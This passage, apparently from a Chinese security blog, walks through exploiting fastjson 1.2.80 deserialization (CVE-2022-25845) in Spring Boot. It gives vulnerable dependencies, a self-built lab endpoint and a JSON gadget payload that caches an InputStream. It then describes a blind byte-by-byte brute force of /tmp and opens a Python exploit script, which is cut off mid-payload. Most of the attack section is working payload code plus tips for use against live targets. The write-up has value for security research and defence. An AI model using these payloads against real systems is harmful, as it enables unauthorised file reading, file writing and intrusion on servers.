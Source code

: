 浅蓝发现的ognl和xalan+dom4j依赖毕竟没用那么热门，于是利用jackson的Exception将InputStream加入缓存的链子在geekcon上公开。  
https://www.geekcon.top/js/pdfjs/web/viewer.html?file=/doc/ppt/GC24_SpringBoot%E4%B9%8B%E6%AE%87.pdf其中用LockableFileWriter代替FileWriterWithEncoding，被我称为io6，可以解决io1-4链文件大小恒定8kb的问题。而且可以自动创建目录，非常契合打springboot环境。  
**四、    fastjson写文件实际利用**  
https://github.com/luelueking/CVE-2022-25845-In-Spring依旧是非常贴合实战的思路，这里用的我自己写的靶场。  
```
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.7</version>
</dependency>
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.80</version>
</dependency>
```  
```
    @RequestMapping(value = "/json", method = RequestMethod.POST)
    public String json(String json) {
        JSONObject jsonObject = null;
        try {
            jsonObject = JSON.parseObject(json);
            return jsonObject.toJSONString();
        } catch (Exception e) {
            e.printStackTrace();
            return "error";
        }
    }
```  
  
先将InputStream加入缓存。  
```
{
  "a": "{    \"@type\": \"java.lang.Exception\",    \"@type\": \"com.fasterxml.jackson.core.exc.InputCoercionException\",    \"p\": {    }  }",
  "b": {
    "$ref": "$.a.a"
  },
  "c": "{  \"@type\": \"com.fasterxml.jackson.core.JsonParser\",  \"@type\": \"com.fasterxml.jackson.core.json.UTF8StreamJsonParser\",  \"in\": {}}",
  "d": {
    "$ref": "$.c.c"
  }
}

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU5MwZN6d85YzicI6P6JkloUW6GQg2lMbvB39iaSSbcJVgoyqHtpRjg4iciaD1957qN1iaHWQQibZP0HtDAQ/640?wx_fmt=png&from=appmsg "")  
  
然后使用io_read，利用回显的差异逐字爆破/tmp目录，实战中一般不会将反序列化的json对象打印出来，可以使用error的不同或者是否发起http请求作为布尔条件。实战中为了效率，可以使用合适的byte范围，以及充分利用boms支持多个bytes做二分快速筛选。  
```
#python2
import requests
import json

url = 'http://192.168.229.130:9999/json'
#url = 'http://127.0.0.1:5667/json'
def getdata(bytes):
    data = '''{
  "a": {
    "@type": "java.io.InputStream",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {
```